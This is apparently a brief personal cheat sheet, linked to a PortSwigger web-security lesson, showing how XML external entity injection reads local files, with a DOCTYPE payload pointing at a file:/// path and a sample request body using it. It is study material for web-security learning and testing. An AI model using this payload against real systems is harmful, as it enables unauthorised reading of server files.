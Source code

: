# Extract File
https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files

## Define an External Entity for the file you want
```
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///filePathHere.txt" >
]>
```

## Reference the External Entity
Add the `&xxe;` reference inside one of the expected request parms

## Send Request Body

```
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///filePathHere.txt" >
]>
<query>
    <search>a</search>
    <country>&xxe;</country>
</query>
````




